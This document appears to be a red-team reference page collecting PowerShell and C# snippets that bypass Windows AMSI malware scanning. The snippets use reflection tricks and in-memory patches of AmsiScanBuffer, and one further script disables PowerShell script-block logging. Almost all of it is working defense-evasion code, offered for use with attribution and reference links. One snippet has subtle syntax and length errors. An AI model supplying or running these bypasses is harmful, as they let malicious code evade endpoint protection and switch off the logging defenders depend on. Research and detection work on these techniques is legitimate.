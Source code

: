 # AMSI Bypass

Search Tag(s): #helpers #malware-development #defense-evasion

## Matt Graebers

`$ cat matt-graebers-amsi-bypass.ps1`

---

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

## Rasta Mouse

`$ cat rasta-mouse-amsi-bypass.ps1`

---

```powershell
$API = @"  
using System;  
using System.Runtime.InteropServices;  
public class Win32 {  
    [DllImport("kernel32")]  
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName)  
    [DllImport("kernel32")]  
    public static extern IntPtr LoadLibrary(string name);  
    [DllImport("kernel32")]  
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out lpflOldProtect)  
}  
"@  
Add-Type $API  
$LoadLibrary = [Win32]::LoadLibrary("amsi.dll")  
$Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")  
$oldprotect = 0  
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$oldprotect)  
$Patch = [Byte[]] (0xb8, 0x57, 0x00, 0x80, 0xc3)  
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

## Am0nSec

`$ cat am0nsec-amsi-bypass.ps1`

---

```powershell
$API = @"  
using System;  
using System.Runtime.InteropServices;  
  
public class Kernel32 {  
    [DllImport("kernel32")]  
    public static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);  
  
    [DllImport("kernel32")]  
    public static extern IntPtr LoadLibrary(string lpLibFileName);  
  
    [DllImport("kernel32")]  
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);  
}  
"@  
  
Add-Type $API  
  
Class Hunter {  
    static [IntPtr] FindAddress([IntPtr]$address, [byte[]]$egg) {  
        while ($true) {  
            [int]$count = 0  
  
            while ($true) {  
                [IntPtr]$address = [IntPtr]::Add($address, 1)  
                If ([System.Runtime.InteropServices.Marshal]::ReadByte($address) -eq $egg.Get($count)) {  
                    $count++  
                    If ($count -eq $egg.Length) {  
                        return [IntPtr]::Subtract($address, $egg.Length - 1)  
                    }  
                } Else { break }  
            }  
        }  
  
        return $address  
    }  
}  
  
[IntPtr]$hModule = [Kernel32]::LoadLibrary("amsi.dll")  
Write-Host "[+] AMSI DLL Handle: $hModule"  
  
[IntPtr]$dllCanUnloadNowAddress = [Kernel32]::GetProcAddress($hModule, "DllCanUnloadNow")  
Write-Host "[+] DllCanUnloadNow address: $dllCanUnloadNowAddress"  
  
If ([IntPtr]::Size -eq 8) {  
    Write-Host "[+] 64-bits process"  
    [byte[]]$egg = [byte[]] (  
        0x4C, 0x8B, 0xDC,       # mov     r11,rsp  
        0x49, 0x89, 0x5B, 0x08, # mov     qword ptr [r11+8],rbx  
        0x49, 0x89, 0x6B, 0x10, # mov     qword ptr [r11+10h],rbp  
        0x49, 0x89, 0x73, 0x18, # mov     qword ptr [r11+18h],rsi  
        0x57,                   # push    rdi  
        0x41, 0x56,             # push    r14  
        0x41, 0x57,             # push    r15  
        0x48, 0x83, 0xEC, 0x70  # sub     rsp,70h  
    )  
} Else {  
	Write-Host "[+] 32-bits process"  
    [byte[]]$egg = [byte[]] (  
        0x8B, 0xFF,             # mov     edi,edi  
        0x55,                   # push    ebp  
        0x8B, 0xEC,             # mov     ebp,esp  
        0x83, 0xEC, 0x18,       # sub     esp,18h  
        0x53,                   # push    ebx  
        0x56                    # push    esi  
    )  
}  
[IntPtr]$targetedAddress = [Hunter]::FindAddress($dllCanUnloadNowAddress, $egg)  
Write-Host "[+] Targeted address: $targetedAddress"  
  
$oldProtectionBuffer = 0  
[Kernel32]::VirtualProtect($targetedAddress, [uint32]2, 4, [ref]$oldProtectionBuffer) | Out-Null  
  
$patch = [byte[]] (  
    0x31, 0xC0,    # xor rax, rax  
    0xC3           # ret    
)  
[System.Runtime.InteropServices.Marshal]::Copy($patch, 0, $targetedAddress, 3)  
  
$a = 0  
[Kernel32]::VirtualProtect($targetedAddress, [uint32]2, $oldProtectionBuffer, [ref]$a) | Out-Null
```

## Adam Chester

`$ cat adam-chester-amsi-bypass.ps1`

---

```powershell
$Patch = @"  
using System;  
using System.Runtime.InteropServices;  
  
public class patch  
{  
    // https://twitter.com/_xpn_/status/1170852932650262530  
    static byte[] x64 = new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };  
    static byte[] x86 = new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC2, 0x18, 0x00 };  
  
    public static void it()  
    {  
        if (is64Bit())  
            PatchAmsi(x64);  
        else  
            PatchAmsi(x86);  
    }  
  
    private static void PatchAmsi(byte[] patch)  
    {  
        try  
        {  
            var lib = Win32.LoadLibrary("amsi.dll");  
            var addr = Win32.GetProcAddress(lib, "AmsiScanBuffer");  
  
            uint oldProtect;  
            Win32.VirtualProtect(addr, (UIntPtr)patch.Length, 0x40, out oldProtect);  
  
            Marshal.Copy(patch, 0, addr, patch.Length);  
            Console.WriteLine("Patch Sucessfull");  
        }  
        catch (Exception e)  
        {  
            Console.WriteLine(" [x] {0}", e.Message);  
            Console.WriteLine(" [x] {0}", e.InnerException);  
        }  
    }  
  
    private static bool is64Bit()  
        {  
            bool is64Bit = true;  
  
            if (IntPtr.Size == 4)  
                is64Bit = false;  
  
            return is64Bit;  
        }  
}  
  
class Win32  
{  
    [DllImport("kernel32")]  
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);  
  
    [DllImport("kernel32")]  
    public static extern IntPtr LoadLibrary(string name);  
  
    [DllImport("kernel32")]  
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);  
}  
"@  
  
Add-Type -TypeDefinition $Patch -Language CSharp  
[patch]::it()
```

## Cobbr

```powershell
$GroupPolicyField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static');
If ($GroupPolicyField) {
    $GroupPolicyCache = $GroupPolicyField.GetValue($null);
    If ($GroupPolicyCache['ScriptBlockLogging']) {
        $GroupPolicyCache['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0;
        $GroupPolicyCache['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0;
    }
    $val = [System.Collections.Generic.Dictionary[string,System.Object]]::new();
    $val.Add('EnableScriptBlockLogging', 0);
    $val.Add('EnableScriptBlockInvocationLogging', 0);
    $GroupPolicyCache['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging'] = $val
};
```

---
## References

- [Amsi Bypass Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)

- [AMSI Bypass Methods](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/)

- [AmsiScanBufferBypass](https://github.com/rasta-mouse/AmsiScanBufferBypass)

- [Memory Patching AMSI Bypass](https://rastamouse.me/memory-patching-amsi-bypass/)

- [Cobbr: ScriptBlockLogBypass](https://gist.github.com/cobbr/d8072d730b24fbae6ffe3aed8ca9c407)

- [How to Bypass AMSI and Execute ANY Malicious Powershell Code](https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html)

- [PayloadsAllTheThings: Windows - AMSI Bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20AMSI%20Bypass.md)
